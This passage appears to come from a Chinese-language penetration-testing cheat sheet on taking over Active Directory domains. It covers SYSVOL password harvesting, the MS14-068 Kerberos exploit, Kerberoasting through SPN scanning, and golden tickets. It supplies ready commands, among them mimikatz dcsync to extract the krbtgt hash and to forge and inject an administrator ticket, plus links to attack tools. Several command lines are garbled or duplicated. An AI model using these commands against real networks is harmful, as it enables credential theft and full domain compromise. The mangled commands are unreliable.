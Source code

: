 ```
```

**自动标记owned用户及机器**

[SyncDog](https://github.com/Lz1y/SyncDog)


##### 获取域内DNS信息
* [adidnsdump](https://github.com/dirkjanm/adidnsdump)
* [域渗透——DNS记录的获取](https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-DNS%E8%AE%B0%E5%BD%95%E7%9A%84%E8%8E%B7%E5%8F%96/)
* 在DNS服务器上download所有记录之后可以使用[dns-zonefile](https://github.com/elgs/dns-zonefile)将txt导出为json结果
          
#### 获取域控的方法 
##### SYSVOL 
SYSVOL是指存储域公共文件服务器副本的共享文件夹，它们在域中所有的域控制器之间复制。 Sysvol文件夹是安装AD时创建的，它用来存放GPO. Script等信息。同时，存放在Sysvol文件夹中的信息，会复制到域中所有DC上。 
相关阅读: 
* [寻找SYSVOL里的密码和攻击GPP（组策略偏好） ](http://www.freebuf.com/vuls/92016.html)
* [Windows Server 2008 R2之四管理Sysvol文件夹 ](http://blog.51cto.com/ycrsjxy/203095)
* [SYSVOL中查找密码并利用组策略首选项 ](https://adsecurity.org/?p=2288)
* [利用SYSVOL还原组策略中保存的密码](https://xz.aliyun.com/t/1653) 

##### MS14-068 Kerberos 
```
python ms14-068.py -u 域用户@域名 -p 密码 -s 用户SID -d 域主机
```
利用mimikatz将工具得到的TGT_domainuser@SERVER.COM.ccache写入内存，创建缓存证书：
```
mimikatz.exe "kerberos::ptc c:TGT_darthsidious@pentest.com.ccache" exit
net use k: \pentest.comc$
```
相关阅读 :
* [Kerberos的工具包PyKEK](http://adsecurity.org/?p=676) 
* [深入解读MS14-068漏洞](http://www.freebuf.com/vuls/56081.html)
* [Kerberos的安全漏洞](https://adsecurity.org/?p=541) 

##### SPN扫描 
Kerberoast可以作为一个有效的方法从Active Directory中以普通用户的身份提取服务帐户凭据，无需向目标系统发送任何数据包。
SPN是服务在使用Kerberos身份验证的网络上的唯一标识符。它由服务类，主机名和端口组成。在使用Kerberos身份验证的网络中，必须在内置计算机帐户（如NetworkService或LocalSystem）或用户帐户下为服务器注册SPN。对于内部帐户，SPN将自动进行注册。但是，如果在域用户帐户下运行服务，则必须为要使用的帐户的手动注册SPN。
SPN扫描的主要好处是，SPN扫描不需要连接到网络上的每个IP来检查服务端口，SPN通过LDAP查询向域控执行服务发现，SPN查询是Kerberos的票据行为一部分，因此比较难检测SPN扫描。
相关阅读 :
* [非扫描式的SQL Server发现](https://blog.netspi.com/locate-and-attack-domain-sql-servers-without-scanning/) 
* [SPN扫描](https://adsecurity.org/?p=1508) 
* [扫描SQLServer的脚本](https://github.com/PyroTek3/PowerShell-AD-Recon) 

##### Kerberos的黄金门票 
在域上抓取的哈希
```
lsadump::dcsync /domain:pentest.com /user:krbtgt
```
```
kerberos::purge
kerberos::golden /admin:administrator /domain:域 /sid:SID /krbtgt:hash值 /ticket:adinistrator.kiribi
kerberos::ptt administrator.kiribi
kerberos::tgt
net use k: \pnet use k: \pentest.comc$
```
相关阅读 :
* https://adsecurity.org/?p=1640 
* [域服务账号破解实践](http://bobao.360.cn/learning/detail/3564.html) 
* [Kerberos的认证原理](https://blog.csdn.net/wulantian/article/details/42418231) 
* [深刻理解windows安全认证机制ntlm＆Kerberos](https://klionsec.github.io/2016/08/10/ntlm-kerberos/) 
